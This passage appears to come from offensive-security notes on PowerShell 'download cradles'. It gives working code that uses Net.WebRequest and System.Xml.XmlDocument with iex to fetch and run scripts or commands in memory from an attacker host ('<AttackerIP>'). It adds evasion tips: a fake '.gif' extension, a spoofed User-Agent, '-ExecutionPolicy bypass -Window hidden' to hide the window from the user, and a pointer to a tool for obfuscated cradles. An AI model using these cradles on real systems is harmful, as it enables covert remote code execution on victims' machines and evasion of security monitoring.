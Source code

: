 Another trick we can use which might help in evading basic file extension heuristics is to give our PowerShell script a different *file extension* (e.g. "logo.gif"). PowerShell will still execute it as a `.ps1` script.

The `Net.WebClient` class allows us to specify a custom *User-Agent* string (with the `Headers.Add` method) when sending the request to our attacker URL. This can help us evade detection mechanisms that are flagging on abnormal user-agent strings crossing the wire.

#### Net.WebRequest

**Net.WebRequest** class (in-memory).

Aside from the `Net.WebClient` class, we can also use the Net.WebRequest class to download and execute scripts on a target, in memory.

Example:
```
$req = [System.Net.WebRequest]::Create("http://<AttackerIP>/script.ps1")
$res = $req.GetResponse()
iex ([System.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()
```

Similar to the `Net.WebClient` class, the `Net.WebRequest` class can also be configured to use a proxy.

#### Xml.XmlDocument

**Xml.XmlDocument** class (in-memory).

The `System.Xml.XmlDocument` class allows us to execute a PowerShell command (or any system command) contained within an attacker hosted XML document and is another great way to execute code in memory, and in a way that is likely not detected, especially when combined with a server over HTTPS.

Example:
```xml
<?xml version="1.0"?>
<command>
    <a>
        <execute>Get-Process</execute>
    </a>
</command>
```
The above xml file will simply list the system processes when executed:
```
$xmldoc = New-Object System.Xml.XmlDocument
$xmldoc.Load("http://<AttackerIP>/file.xml")
iex $xmldoc.command.a.execute
```

With all of these examples, when executing the download cradles, make sure to include the `-ExecutionPolicy Bypass` and `-Window Hidden` options. This will ensure we can run our scripts and that the powershell window stays hidden from the end-user. `powershell.exe -ExecutionPolicy bypass -Window hidden .\downloader.ps1`.

#### Invoke-CradleCrafter

[**Invoke-CradleCrafter**](https://github.com/danielbohannon/Invoke-CradleCrafter) is a great tool to craft obfuscated download cradles.
